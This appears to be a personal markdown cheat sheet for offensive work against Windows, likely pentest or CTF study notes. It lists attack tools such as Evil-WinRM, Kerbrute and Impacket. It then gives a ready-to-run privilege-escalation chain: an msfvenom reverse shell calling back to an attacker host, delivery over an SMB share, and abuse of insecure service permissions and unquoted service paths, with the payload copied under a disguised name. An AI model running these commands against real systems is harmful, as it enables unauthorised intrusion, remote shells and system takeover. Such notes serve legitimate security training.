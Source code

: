 # Windows

## Evil-WinRM

Ultimate shell

## MobaDiff

Compare multiple files/directories

## Detect it Easy

Tool to detect the type of a program

## Enum4Linux

Enumerates Windows stuff running on a machine

## Kerbrute

Brute forces active directory

## SMBMap

Detects and exploits Samba vulnerabilities

## Impacket

Series of scripts that gets you inside a Windows Machine

## PowerCat

NetCat for Powershell - 
https://github.com/besimorhino/powercat

## Shortcut Modification

https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md

## Powershell scripts without powershell - PowerlessShell

https://github.com/Mr-Un1k0d3r/PowerLessShell


## Windows Privilege Escalation

### Generate Reverse Shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
````

### Start Samba Server

```
sudo smbserver.py kali .
```

### Copy from Samba Server on Windows

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

### Insecure Service Permissions

- Check user permissions for service:
```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user SERVICENAME
```

- Query Service privileges:
```
sc qc SERVICENAME
```

- Set binary path to the reverse shell:
```
sc config SERVICENAME binpath= "\"C:\PrivEsc\reverse.exe\""
```

- Start Service:
```
net start SERVICENAME
```

### Unquoted Service Path

- Check Binary Path of Service:
```
sc qc SERVICENAME
```

- Check if user can write to directory:
```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

- Copy the reverse shell to the directory with the unsupicious name 
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

- Start the service:
```
net start unquotedsvc
```







## Various Techniques to send malware to Windows Machines

https://tryhackme.com/room/weaponization
